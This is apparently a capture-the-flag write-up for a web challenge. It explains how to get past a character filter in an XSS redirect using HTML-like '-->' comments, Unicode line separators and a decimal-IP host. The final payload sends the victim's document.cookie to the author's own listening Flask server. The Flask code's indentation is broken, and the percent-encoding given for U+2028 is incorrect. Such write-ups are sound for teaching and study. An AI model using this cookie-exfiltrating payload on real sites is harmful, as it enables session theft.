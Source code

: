 # Bounty Pl33z [255pts]

## Description
```
Where's my bounty?
http://3.114.5.202/

Hint: flag in cookies
Author: 🤣filedescriptor feat.🍊Orange
30 Teams solved.
```
## Content

In this challenge, we should make XSS payload with fd.php, as index.php is refusing all url except ones starting with `http://3.114.5.202`

fd.php makes redirection to url containing passed parameter, but some characters are filtered.

Our parameter goes here :

    window.self.location.href = "https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";


With some tests, it was figured out that `\r`, `\n`, `/`, `\`, `<`, `.` characters removed, and `"`, `'` characters should only occur once.

## Solution

### Single Line Comment in JS

As we want to add document[\`cookie\`] to the url, we need to escape the string, that means we need to use a quote.
The problem is that after putting our url with one quote should make valid JS code. (Or else, browser will refuse to execute it.)
I wanted to make comment without using `/`, (as all I know about js comments are `// ..` or `/* .. */`) I dived into [ECMAScipt Language Specification](https://www.ecma-international.org/ecma-262/10.0/index.html).
And finally I found that `-->` can be used as single line comment at [HTML-like Comments](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-html-like-comments).

### Line Terminator in JS

But another problem emerged: If `-->` want to work as single line comment, Only WhiteSpaceSequence or SingleLineDelimietedCommentSequence can come before `-->` in the line.
So I tried to find out line delimiters except `\n` or `\r`.
Luckily, I found out that U+2028 or U+2029 can used as line terminator in JS at [Line Terminators](https://www.ecma-international.org/ecma-262/10.0/index.html#sec-line-terminators).
We can use UTF-8 encoding to use these characters in url: `%E2%20%A8` or `%E2%20%A9`

### HTTPS server

We also need now is running HTTPS server.
First, I wrote simple HTTPS server with flask :
```
#!/usr/bin/env python3
from flask import Flask, request
import os
app = Flask(__name__)
app.secret_key = "sumango3"
@app.route('/')
def main():
       with open('log.txt', 'a') as f:
    f.write(str(request.__dict__))
        f.write('<br><br>')
    with open('log.txt','r') as f:
        return f.read()

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1234, ssl_context='adhoc')
```

### URL Host Bypass

To make non-dot url, we can use decimal ip for url as following:
A.B.C.D --> A * 256^3 + B * 256^2 + C * 256 + D

If my ip address is 1.2.3.4, 16909060 can be used.

### Payload

So final payload is as following:

    http://3.114.5.202/fd.php?q=16909060:1234?ck="%2Bdocument[`cookie`]%E2%20%A8-->

fd.php will return following code: (Line Separator character is non printable)

    window.self.location.href = "https://16909060:1234?ck="+document[`cookie`]<LS>-->oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";

which is valid JS code.

## Flag

    hitcon{/FD 1s 0ur g0d <(_ _)>}

## Appendix

[HTTPS server](https://github.com/sumango3/ctf/Utils/https-server.py)
